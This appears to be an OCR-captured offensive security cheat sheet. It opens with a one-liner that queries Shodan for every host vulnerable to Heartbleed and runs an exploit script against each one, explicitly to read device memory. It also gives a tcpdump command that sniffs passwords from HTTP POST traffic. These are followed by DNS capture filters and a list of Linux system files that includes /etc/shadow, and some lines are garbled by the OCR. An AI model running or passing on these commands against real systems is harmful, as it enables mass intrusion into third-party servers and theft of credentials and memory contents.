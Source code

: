 ## Scalable Heartbleed Hunting with Shodan

Hunt for components susceptible to the Heartbleed vulnerability before exploiting the devices memory with this one-liner. This command requires an Academic Plus Shodan API key.

```sh
shodan search vuln:cve-2014-0160 --fields hostnames | awk NF > heartbleed_hosts.txt; cat heartbleed_hosts.txt | while read line; do heartbleed.py "$line"; done
```

## Extract Passwords from HTTP POST Requests

```sh
sudo tcpdump -s 0 -A -n -l | egrep -i "POST /|pwd=|passwd=|password=|Host:"
```

## BPF'ing DNS Records

```sh
# All queries
tcpdump -nt 'dst port 53 and udp[10] & 0x80 = 0'

# All responses
tcpdump -nt 'src port 53 and udp[10] & 0x80 = 0x80'
```

## Important Files

```sh
/boot/vmlinuz : The Linux Kernel file.
/dev/had : Device file for the first IDE HDD (Hard Disk Drive) /dev/hdc : Device file for the IDE Cdrom, commonly
/dev/null : A pseudo device
/etc/bashrc : System defaults and aliases used by bash shell. /etc/crontab : Cron run commands on a predefined time Interval. /etc/exports : Information of the file system available on network. /etc/fstab : Information of Disk Drive and their mount point. /etc/group : Information of Security Group.
/etc/grub.conf : grub bootloader configuration file.
/etc/init.d : Service startup Script.
/etc/lilo.conf : lilo bootloader configuration file.
/etc/hosts : Information on IP's and corresponding hostnames. /etc/hosts.allow : Hosts allowed access to services on local host. /etc/host.deny : Hosts denied access to services on local host. /etc/inittab : INIT process and interactions at various run level. /etc/issue : Allows to edit the pre-login message. /etc/modules.conf : Configuration files for system modules. /etc/motd : Message Of The Day
/etc/mtab : Currently mounted blocks information.
/etc/passwd : System users with password hash redacted. /etc/printcap : Printer Information
/etc/profile : Bash shell defaults
/etc/profile.d : Application script, executed after login. /etc/rc.d : Information about run level specific script. /etc/rc.d/init.d : Run Level Initialisation Script. /etc/resolv.conf : Domain Name Servers (DNS) being used by System. /etc/securetty : Terminal List, where root login is possible. /etc/shadow : System users with password hash.
/etc/skel : Script that populates new user home directory. /etc/termcap : ASCII file defines the behavior of Terminal. /etc/X11 : Configuration files of X-window System.
/usr/bin : Normal user executable commands.
/usr/bin/X11 : Binaries of X windows System.
/usr/include : Contains include files used by ‘c‘ program. /usr/share : Shared directories of man files, info files, etc. /usr/lib : Library files required during program compilation. /usr/sbin : Commands for Super User, for System Administration. /proc/cpuinfo : CPU Information
/proc/filesystems : File-system information being used currently. /proc/interrupts : Information about the current interrupts. /proc/ioports : All Input/Output addresses used by devices. /proc/meminfo : Memory Usages Information.
/proc/modules : Currently used kernel module.
/proc/mount : Mounted File-system Information.
/proc/stat : Detailed Statistics of the current System. /proc/swaps : Swap File Information.
```